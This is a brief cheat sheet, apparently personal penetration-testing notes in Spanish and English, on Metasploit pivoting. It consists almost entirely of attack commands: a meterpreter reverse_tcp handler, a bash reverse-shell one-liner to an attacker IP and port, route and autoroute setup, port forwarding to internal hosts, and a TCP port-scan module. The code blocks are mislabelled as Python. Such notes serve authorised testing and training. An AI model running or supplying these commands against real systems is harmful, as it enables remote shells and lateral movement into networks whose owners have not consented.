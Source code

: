 ### Pivoting 

use /multi/handler

```python

payload/linux/x86/meterpreter/reverse_tcp

```
run
```python
sh -i >& /dev/tcp/192.168.0.181/4444 0>&1
```

route add
```python
route add 10.0.2.4 255.255.255.0 2
```

eliminar una ruta
```python
	route del
```

agregar rutas automaticas
```python
	use multi/manage/autoroute
```


pivoting by portforgarding 
```python
portfwd add -l 7777 -p 21 -r 10.0.2.5
```

escaneo de puertos TCP
```python
	scanner/portscan/tcp
```

ssh